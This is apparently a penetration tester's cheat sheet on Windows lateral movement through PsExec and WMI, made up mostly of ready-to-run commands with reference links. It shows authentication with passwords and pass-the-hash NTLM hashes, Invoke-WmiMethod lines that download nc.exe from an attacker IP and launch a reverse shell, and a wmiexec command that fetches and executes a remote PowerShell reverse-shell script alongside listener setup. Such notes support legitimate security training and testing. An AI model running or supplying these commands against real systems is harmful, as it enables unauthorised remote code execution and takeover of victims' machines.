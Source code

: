 

### PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)


#### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@127.0.0.1 [powershell.exe]
$ psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@127.0.0.1
```




## WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)



### PowerShell

Basic command to check if we have privileges to execute WMI:

```
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namesapce" | Select Name
```

Execute commands:

```
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```



### wmiexec.py

```
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@127.0.0.1
$ wmiexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@127.0.0.1
```

Get a PowerShell reverse-shell:

```
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -nooutput snovvcrash:'Passw0rd!'@10.10.13.38 "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
```
